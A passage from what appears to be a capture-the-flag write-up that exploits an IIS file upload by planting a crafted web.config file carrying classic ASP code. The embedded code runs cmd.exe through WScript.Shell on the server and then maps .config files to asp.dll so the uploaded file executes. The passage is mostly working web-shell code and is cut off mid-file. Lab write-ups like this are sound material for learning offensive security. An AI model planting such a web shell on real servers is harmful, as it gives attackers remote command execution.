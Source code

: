 ```xml 
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code goes here! It should not include HTML comment closing tag and double dashes!
<%
' Close out the XML comment from the lines above
Response.write("-"&"->")

' Create a Windows Script Shell Object that will allow us to execute commands
Set wShell1 = Server.CreateObject("WScript.Shell")

' Execute the command
Set cmd1 = wShell1.Exec("cmd.exe /c dir /a h /s C:\Users\merlin\")

' Read the output
output1 = cmd1.StdOut.Readall()

' Write it to the response
Response.write("<pre>")
Response.write(output1)
Response.write("</pre>")

' Comment out any remaining lines
Response.write("<!-"&"-")
%>
-->
```

Eventually, we find user.txt (the user flag) on merlin's desktop:
![user.txt location](screenshots/finding_usertxt.png)

We can modify our web.config and reupload it to get the contents of user.txt
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <!-- Allow web.config to read files, execute scripts, and write directories files -->
      <handlers accessPolicy="Read, Script, Write">
        <!-- Add a handler named web_config (name="web_config"):
             That applies to .config files (path="*.config")
             and all HTTP verbs like GET, POST, and HEAD (verb="*")
             Use the IsapiModule to handle .config files (modules="IsapiModule").  The ISAPI module handles ASP scripts and pages.
             Use asp.dll (scriptProcessor="%windir%\system32\inetsrv\asp.dll") to process scripts.  asp.dll handles classic ASP scripts.
             
             resourceType="Unspecified" lets us apply this mapping to a file name or extension that does not exist on disk
             requireAccess="Write" lets this handler write files (which we will need in order to execute files on the remote box)
             preCondition="bitness64" tells the handler that it should only run in 64-bit mode (in this case, our script processor is a 64-bit DLL on an x64 system, so we want to make sure the architectures match)
         -->
```